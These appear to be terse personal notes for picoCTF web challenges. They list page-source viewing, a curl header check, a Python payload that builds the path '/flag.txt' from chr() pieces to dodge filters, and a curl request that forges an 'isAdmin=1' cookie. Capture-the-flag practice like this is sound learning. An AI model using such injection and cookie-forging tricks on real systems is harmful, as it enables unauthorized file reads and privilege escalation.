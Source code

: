 - 1) view page source
 
 ------------------------------------------------------------------------------

- curl -I http://shape-facility.picoctf.net:62930/ > check "Server"

- open(chr(47)+"f"+"l"+"a"+"g"+chr(46)+"t"+"x"+"t").read()

- ascii table
- . = 46
- / = 47

-------------------------------------------------------------------------------

curl http://saturn.picoctf.net:50500/check.php --cookie "isAdmin=1"

-------------------------------------------------------------------------------
